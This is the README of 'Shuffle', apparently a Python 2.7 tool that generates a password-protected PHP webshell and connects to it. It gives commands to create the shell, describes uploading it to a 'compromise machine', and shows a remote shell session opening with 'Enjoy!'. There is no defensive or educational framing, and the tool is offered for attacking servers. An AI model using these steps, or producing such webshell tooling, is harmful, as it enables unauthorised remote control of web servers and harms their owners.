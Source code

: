 ![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extra/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.1 (Beta)
### Installation

Only you need is Python 2.7

## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connetec
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p 123
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p 123
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```
License
----

MIT

**Free Software, Hell Yeah!**